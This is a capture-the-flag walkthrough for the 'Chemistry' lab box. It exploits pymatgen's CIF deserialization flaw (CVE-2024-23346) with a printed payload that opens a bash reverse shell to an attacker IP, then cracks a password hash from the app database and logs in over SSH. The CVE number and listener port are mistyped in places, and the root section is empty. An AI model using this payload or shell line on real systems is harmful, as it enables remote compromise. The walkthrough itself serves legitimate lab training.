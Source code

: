 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC Default Scripts
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.

![webPage](Images/webPage.png)

Next we can register and login to the site. This brings us to a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Make sure that you are listening on your attacking machine with the port used in the shell commnad, in this case it is 4444.
You will also need to fill in your attacking machines IP (run ifconfig on your machine to find this).
```
SHELL
("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");

LISTENER
nc -lvnp 444
```
From here we can see the user flag on the user Rosa account. Unofrtunately, we do not have access to view/read the file.

![webShell](Images/webShell.png)


## User Flag

From here we can look through the machine for more potential information on the user Rosa.
Reading the app.py file we can see a reference to database.db
```
$ cd app
$ ls
app.py
instance
static
templates
uploads
$ cat app.py
```
![appPy](Images/appPy.png)

Reading the database.db file in the instance folder we can see the user Rosa referenced with a string of characters afterward. This appears to be a password hash.
```
$ cd instance
$ ls
database.db
$ cat database.db
```
![databaseDb](Images/databaseDb.png)

We can either try to crack the password hash locally using a tool such as JohnTheRipper.
Alternatively, I have used the site crackstation.net, which will check and see if they have the password for the provided password hash.

![crackStation](Images/crackStation.png)

Now we have the password for the rosa user account. We know from the nmap scan that SSH port 22 is open on the box.
We can try and access the box via SSH with the rosa account.
```
ssh rosa@<target IP>

cat user.txt
```
The login was successful. We can now read the user.txt file and obtain the user flag.

![rosaSSH](Images/rosaSSH.png)


## Root Flag

